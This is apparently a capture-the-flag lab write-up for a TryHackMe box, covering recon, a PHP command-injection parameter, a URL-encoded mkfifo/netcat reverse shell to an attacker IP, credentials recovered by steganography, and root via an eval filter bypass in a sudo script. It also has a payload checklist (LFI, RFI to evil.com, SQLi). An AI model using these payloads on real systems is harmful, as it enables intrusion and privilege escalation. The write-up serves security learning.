







<b>

### Front-End Recon


### Adding Localhost
```bash
~> echo "10.10.113.44 ua.thm" | sudo tee -a /etc/host
```
## Web Application Enumeration
```bash
Host is up (0.31s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d0:59:8b:3a:f1:b2:56:4b:3a:cb:9a:61:4f:f8:50:08 (RSA)
|   256 58:db:2d:75:ab:a3:d6:51:12:8c:7c:80:cb:e1:dd:e3 (ECDSA)
|_  256 aa:56:03:8d:65:db:0e:2f:70:c6:0c:c0:34:24:77:98 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: U.A. High School
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Hidden Image?

### Directory and File Listings
```bash
~❯ feroxbuster -u http://ua.thm -w /usr/share/seclists/Discovery/Web-Content/raft-small-files.txt --scan-dir-listings
                                                                                                                                                       
200      GET       63l      287w     2573c http://ua.thm/admissions.html
200      GET      166l      372w     2943c http://ua.thm/assets/styles.css
200      GET       71l      205w     2056c http://ua.thm/contact.html
200      GET       52l      320w     2542c http://ua.thm/about.html
200      GET       61l      225w     1988c http://ua.thm/index.html
200      GET        0l        0w        0c http://ua.thm/assets/
200      GET       87l      261w     2580c http://ua.thm/courses.html
200      GET       61l      225w     1988c http://ua.thm/
```
```bash
❯ feroxbuster -u http://ua.thm/assets/ -w /usr/share/seclists/Discovery/Web-Content/common.txt --scan-dir-listings

200 GET  http://ua.thm/assets/
200 GET  http://ua.thm/assets/index.php
301 GET  http://ua.thm/assets/images => http://ua.thm/assets/images/
```
```bash
~> feroxbuster -u http://ua.thm/assets/images -w /usr/share/seclists/Discovery/Web-Content/raft-small-files.txt --scan-dir-listings

301  GET  http://ua.thm/assets/images => http://ua.thm/assets/images/

```
### Fingerprinting Web Servers

```bash
❯ curl http://ua.thm/assets/index.php
❯ curl -v http://ua.thm/assets/index.php
* Host ua.thm:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.113.44
*   Trying 10.10.113.44:80...
* Connected to ua.thm (10.10.113.44) port 80
* using HTTP/1.x
> GET /assets/index.php HTTP/1.1
> Host: ua.thm
> User-Agent: curl/8.13.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Sat, 07 Jun 2025 04:30:08 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Set-Cookie: PHPSESSID=    ; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host ua.thm left intact
```
### Inspecting HTTP Response Headers and Sitemaps
```bash
❯ curl -I http://ua.thm
HTTP/1.1 200 OK
Date: Sat, 07 Jun 2025 04:26:20 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Wed, 13 Dec 2023 22:12:34 GMT
ETag: "7c4-60c6b76c8b8da"
Accept-Ranges: bytes
Content-Length: 1988
Vary: Accept-Encoding
Content-Type: text/html
```
```bash
❯ curl -I http://ua.thm/assets/index.php
HTTP/1.1 200 OK
Date: Sat, 07 Jun 2025 04:28:49 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=ba2dodns21ch2jl6jkb11kqc35; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8

```
### Technology Stack Identification



# Vulnerability Analysis

### A blank PHP page might still have underlying functionality that can be exploited. Here are possible vulnerabilities to consider:
### Parameter Injection

| Number | Vulnerability                      | Uses Parameter Injection?  | Notes                                   |
|--------|------------------------------------|----------------------------|-----------------------------------------|
| **1**  | Local File Inclusion (LFI)         | ✅ Yes                     | Inject path via `?file=`                |
| **2**  | Remote File Inclusion (RFI)        | ✅ Yes                     | Inject remote URL via `?file=`          |
| **3**  | Error Disclosure                   | ✅ Yes                     | Bad parameter can trigger warnings      |
| **4**  | Directory Traversal                | ✅ Yes                     | Inject `../` in `?file=`                |
| **7**  | Command Injection                  | ✅ Yes                     | Inject shell commands in parameters     |
| **9**  | SQL Injection                      | ✅ Yes                     | Inject SQL in `?id=...`                 |
| **10** | PHP Filters / Stream Wrappers      | ✅ Yes                     | Used via `?file=php://...`              |
| **13** | Open Redirect                      | ✅ Yes                     | Inject redirect target via `?redirect=` |
| **14** | SSRF (Server-Side Request Forgery) | ✅ Yes                     | Inject URL via `?url=...`               |


## 🧩 1. Local File Inclusion (LFI)
- Payloads like `?file=../../../../etc/passwd`
- Variants: `?page=`, `?view=`
- Test with: `php://filter/convert.base64-encode/resource=index.php`

## 🌐 2. Remote File Inclusion (RFI)
- If `allow_url_include` is enabled:
  - `?file=http://evil.com/shell.txt`

## 🐞 3. Error Disclosure
- Trigger non-existent parameters or files to reveal:
  - PHP warnings
  - Full file paths
  - Stack traces

## 🔐 4. Directory Traversal
- Bypass directory restrictions using:
  - `../` sequences in parameters
  - Access sensitive files (`/etc/passwd`, config files)

## 💾 5. Backup and Hidden Files
- Accessible files:
  - `index.php~`, `index.bak`, `.git/`, `config.php.swp`

## 🏗 6. Unauthenticated Admin/Dev Panels
- Try common paths:
  - `/admin/`, `/dev/`, `/test/`, `/debug/`

## 🎯 7. Command Injection
- If user input is passed to system calls:
  - `; whoami`
  - `& id`

## 🛠 8. File Upload Vulnerabilities
- Hidden forms or endpoints might accept file uploads
- Test for unrestricted file upload (e.g., `.php` shell)

## 🧬 9. SQL Injection
- Even if not visible, parameters might be passed to DB:
  - `?id=1' OR '1'='1`

## ⚙️ 10. PHP Filters / Stream Wrappers
- Use for source code disclosure:
  - `?file=php://filter/convert.base64-encode/resource=index.php`

## 📜 11. Misconfigured Headers
- Check `X-Powered-By`, `Server`, CORS policies
- Old PHP versions or leaking tech stack info

## 🧪 12. Debug/Development Mode
- Check for:
  - Debug output
  - Verbose error messages
  - Tools like Laravel debug bar, Symfony profiler

## 🕳 13. Open Redirects
- Check for:
  - `?redirect=http://evil.com`

## 🔄 14. SSRF (Server-Side Request Forgery)
- Parameters that cause server-side HTTP requests
  - e.g., `?url=http://127.0.0.1:8080`

---

<br>

After testing all the possible vulnerabilities I had listed, I tried fuzzing parameters and eventually tried `id` as a parameter.
That’s when I got an interesting response: it returned something like cmd? which caught my attention hmmp.

I started thinking it through and searched around a bit. Then it hit me—it might be vulnerable to command injection. So I tried adding `cmd=whoami and cmd=id` to the URL.

Sure enough, it responded with output—but it was base64 encoded.
### Command Injection

```bash
❯ ffuf -u "http://ua.thm/assets/index.php?FUZZ=id" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________again

 :: Method           : GET
 :: URL              : http://ua.thm/assets/index.php?FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

cmd                     [Status: 200, Size: 72, Words: 1, Lines: 1, Duration: 563ms]
```
### Security Testing
> the website vulnerable to blind timed-based command injection
```bash
❯ commix --url="http://ua.thm/assets/index.php?cmd=fuckingwebsite" --os-cmd="id" --batch

                                      __
   ___   ___     ___ ___     ___ ___ /\_\   __  _
 /`___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\  v3.9-stable
/\ \__//\ \/\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </
\ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\ https://commixproject.com
 \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ (@commixproject)

+--
Automated All-in-One OS Command Injection Exploitation Tool
Copyright © 2014-2024 Anastasios Stasinopoulos (@ancst)
+--

(!) Legal disclaimer: Usage of commix for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

[12:54:56] [info] Testing connection to the target URL. 
You have not declared cookie(s), while server wants to set its own ('PHPSESSID=pgf9d1bqhi1...hu88g6mjc4'). Do you want to use those [Y/n] > Y
[12:55:00] [info] Performing identification checks to the target URL.
[12:55:01] [info] Setting GET parameter 'cmd' for tests.
[12:55:49] [warning] Heuristic (basic) tests shows that GET parameter 'cmd' might not be injectable.
[12:56:21] [info] Testing the (results-based) classic command injection technique.           
[12:57:02] [info] Testing the (results-based) dynamic code evaluation technique.           
[12:57:02] [warning] It is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions.
[12:57:18] [info] Checking if the injection point on GET parameter 'cmd' is a false positive.
[12:57:18] [warning] Time-based comparison requires larger statistical model, please wait..................... (done) 
[12:58:03] [info] GET parameter 'cmd' appears to be injectable via (blind) time-based command injection technique.
           |_ fuckingwebsite;str=$(echo RIGJOH);str1=$(expr length "$str");if [ 6 -ne $str1 ];then sleep 0;else sleep 1;fi
[12:58:03] [info] Executing the user-supplied command: 'id'.
[12:58:03] [info] Retrieving the length of execution output. 
           |_ Retrieved: 53
[13:00:05] [info] Presuming the execution output... (0.0%)
```
### Vulnerability Identification
```bash
❯ curl "http://ua.thm/assets/index.php?cmd=id"

dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK%     
```
```bash
❯ curl -s "http://ua.thm/assets/index.php?cmd=id" | base64 -d
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## Exploitation
> i use `nc mkfifo` found in revshell.com with URL encoded 

```bash
~> curl "http://ua.thm/assets/index.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.23.42.147%209001%20%3E%2Ftmp%2Ff"
```
> and the receiver
```bash
❯ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.23.42.147] from (UNKNOWN) [10.23.42.147] 43666
$ export TERM=linux 
```
<br>

I found a hidden folder named Hidden_Content. Inside, there was a Base64-encoded text file. At first, I thought it might contain SSH credentials or a user password, but after decoding it, nothing useful came up. So I decided to explore the folder further to see if there was anything else of value.

That’s when I came across two image files: oneforall.jpg and yuei.jpg. I ran a few steganography tools on them—like steghide, stegsolve, exiftool, and xxd. Eventually, I realized that oneforall.jpg was corrupted. I checked the file header and noticed the magic bytes were incorrect, so I fixed them using a hex editor.

After that, I was able to extract the hidden data using steghide, and when prompted for a password, I used Allmighforever!!!. And boom—it worked! Hidden data successfully extracted.

<br>

```bash
❯ echo "QWxsbWlnaHRGb3JFdmVyISEhCg=="| base64 -d
AllmightForEver!!!
```
```bash
www-data@ip-10-10-113-44:/var/www/html$ cat /etc/passwd | grep $100
cat /etc/passwd | grep $100
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
deku:x:1000:1000:deku:/home/deku:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash
```
Since I couldn’t use the `AllmighForEver` password, I started poking around and eventually found some juicy information.
```bash
www-data@ip-10-10-113-44:/var/www/html/assets$ ls
ls
images
index.php
styles.css
www-data@ip-10-10-113-44:/var/www/html/assets$ cd images
cd images
www-data@ip-10-10-113-44:/var/www/html/assets/images$ ls -al
ls -al
total 336
drwxrwxr-x 2 www-data www-data   4096 Jul  9  2023 .
drwxrwxr-x 3 www-data www-data   4096 Jan 25  2024 ..
-rw-rw-r-- 1 www-data www-data  98264 Jul  9  2023 oneforall.jpg
-rw-rw-r-- 1 www-data www-data 237170 Jul  9  2023 yuei.jpg
www-data@ip-10-10-113-44:/var/www/html/assets/images$ 
```
I was trying to figure out why there was an image file there—it didn’t show up during my earlier fuzzing, so maybe it was placed there on purpose.

## Data exfiltration 

```bash
❯ wget http://ua.thm/assets/images/oneforall.jpg
--2025-06-07 13:56:02--  http://ua.thm/assets/images/oneforall.jpg
Resolving ua.thm (ua.thm)... 10.10.113.44
Connecting to ua.thm (ua.thm)|10.10.113.44|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 98264 (96K) [image/jpeg]
Saving to: ‘oneforall.jpg’

oneforall.jpg                         100%[========================================================================>]  95.96K  84.7KB/s    in 1.1s    

2025-06-07 13:56:04 (84.7 KB/s) - ‘oneforall.jpg’ saved [98264/98264]
```


## Investigating corrupted image
```bash
❯ file oneforall.jpg
oneforall.jpg: data
❯ exiftool oneforall.jpg
ExifTool Version Number         : 13.00
File Name                       : oneforall.jpg
Directory                       : .
File Size                       : 98 kB
File Modification Date/Time     : 2023:07:10 00:42:05+08:00
File Access Date/Time           : 2025:06:07 13:56:04+08:00
File Inode Change Date/Time     : 2025:06:07 13:56:04+08:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Warning                         : PNG image did not start with IHDR
```
After inspecting the file with exiftool, I noticed it was actually PNG data, even though the file extension was .jpg. Since the extension suggested it should be a JPEG, I decided to manually change the magic bytes (signature) to match the JPEG format so the file could be properly recognized and opened as a JPG image.
> wikipedia: [file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)


```bash
❯ xxd oneforall.jpg | head
00000000: 8950 4e47 0d0a 1a0a 0000 0001 0100 0001  .PNG............
00000010: 0001 0000 ffdb 0043 0006 0405 0605 0406  .......C........
00000020: 0605 0607 0706 080a 100a 0a09 090a 140e  ................
00000030: 0f0c 1017 1418 1817 1416 161a 1d25 1f1a  .............%..
00000040: 1b23 1c16 1620 2c20 2326 2729 2a29 191f  .#... , #&')*)..
00000050: 2d30 2d28 3025 2829 28ff db00 4301 0707  -0-(0%()(...C...
00000060: 070a 080a 130a 0a13 281a 161a 2828 2828  ........(...((((
00000070: 2828 2828 2828 2828 2828 2828 2828 2828  ((((((((((((((((
00000080: 2828 2828 2828 2828 2828 2828 2828 2828  ((((((((((((((((
00000090: 2828 2828 2828 2828 2828 2828 2828 ffc0  ((((((((((((((..
```

```bash
❯ exiftool oneforall.jpg
ExifTool Version Number         : 13.00
File Name                       : oneforall.jpg
Directory                       : .
File Size                       : 98 kB
File Modification Date/Time     : 2025:06:07 14:17:13+08:00
File Access Date/Time           : 2025:06:07 14:17:13+08:00
File Inode Change Date/Time     : 2025:06:07 14:17:13+08:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Image Width                     : 1140
Image Height                    : 570
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1140x570
Megapixels                      : 0.650
```


## Steghide
```bash
❯ steghide extract -sf oneforall.jpg
Enter passphrase: 
wrote extracted data to "creds.txt".

❯ cat creds.txt
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:One?For?All_!!one1/A
~/thm/ua ❯ 
```
```bash
> ssh -p 22 deku@10.10.113.44

Last login: Thu Feb 22 21:27:54 2024 from 10.0.0.3

deku@ip-10-10-113-44:~$ 
```
### Post Exploitation Enumeration 
```bash
deku@ip-10-10-113-44:~$ sudo -l
[sudo] password for deku: 
Matching Defaults entries for deku on ip-10-10-113-44:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on ip-10-10-113-44:
    (ALL) /opt/NewComponent/feedback.sh
```
```bash
deku@ip-10-10-249-231:~$ cat /opt/NewComponent/feedback.sh
```
```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```
## Gaining Root 
### 🔍 Key Observations:
- You can run `/opt/NewComponent/feedback.sh` with sudo.
- The script filters out some dangerous characters in the user input `(;, &, |, $(), backticks, etc.)` before using `eval "echo $feedback"`.
- However, it still uses `eval`, which is dangerous.

### ✅ Vulnerability:
Even though many dangerous characters are filtered, `eval is still being used` — which means if we find a clever way around the blacklist, we can inject arbitrary commands and get a shell as root, since you're running the script with sudo.


🚩 Exploitation via eval – Bypassing the Filter

The blacklist filters characters like:

- `
- )
- $(
- |
- &
- ;
- ?
- !
- \

But many ways to execute code in bash don't need those characters. Here's a working bypass using command substitution with `${}`:
```bash
sudo /opt/NewComponent/feedback.sh
```
```bash
deku@ip-10-10-249-231:~$ sudo  /opt/NewComponent/feedback.sh
[sudo] password for deku: 
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
echo${IFS}ROOTED>/tmp/pwned                     
It is This:
Feedback successfully saved.
```
This confirms the exploit worked exactly as expected.
So if we ran 
```bash
echo${IFS}ROOTED>/tmp/pwned
```

## 🧪 Proof of Root Execution

Inside the vulnerable script, eval interpreted this as:
```bash
echo ROOTED > /tmp/pwned
```
Because the script was executed with sudo, the command ran as root, which means:
  - The file `/tmp/pwned` was created and written by root.
  - Its contents reflect what root executed: `echo ROOTED`.

To verify that the file was created by root, check:
```bash
deku@ip-10-10-249-231:~$ ls -al /tmp/pwned
